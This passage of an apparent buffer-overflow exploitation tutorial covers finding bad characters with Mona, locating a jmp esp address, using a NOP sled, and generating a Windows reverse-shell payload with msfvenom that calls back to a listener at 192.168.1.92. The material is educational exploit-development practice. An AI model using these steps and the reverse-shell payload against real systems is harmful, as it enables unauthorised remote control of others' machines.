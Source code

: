 Mona will create a nice bytearray that you could also use. I've already done the hard part for you.

Run badchars.py and it will crash, overwrite the EIP, and also throw all those hex symbols into memory and see how the program deals with them. Fortunately, you can have Mona do the hard part for you, seeing if there are any discrepancies.

	!mona compare -f C:\mona\appname\bytearray.bin -a esp

Mona will spit out a comparison. If she tells you sequential symbols, she might be lieing. If she gives 07 and 08, only include 07 in the next iteration you put in create.py .

Repeat this process until Mona says that the results are unchanged.  Now you have found all the bad characters.  

Save those bad characters, because we need them for shellcode.

Jump Point
==========

We have the EIP, but what do we do with it?

It needs an address. It needs an address that will jump to a new stack frame.

We need a `jmp esp` .

Fortunately, that's easy in Immunity with Mona.

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

This will return you a list of memory addresses that you can use. Pick one and save it. We'll need it in a second.

Oh, you'll have to turn it into little endian with my code. 
The 32 bit address \xAABBCCDD looks like this in 4 bytes \xDD\xCC\xBB\xAA.

If you get lost on that one, just know that I explained it to my 5 year-old and she gives me little endian puzzles on the fly.

NOP sleds
=========

This is a messy business and processors like buffers.  We're going to help our hack along by including a NOP sled.

NOP means "No Operation" and is represented as "\x90". 

When it is read in assembly, it tells the CPU to just go to the next memory address.

We'll use 16 of them. Just trust me on this one.


Shellcode
=========

Finally, right?

Now we'll make the shellcode that will call back to your listener.

Using msfvenom, make sure to include the same bad chars from before:


    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=9009 EXITFUNC=thread -b "\x00\x0a\x0d" -f python -v "shellcode"
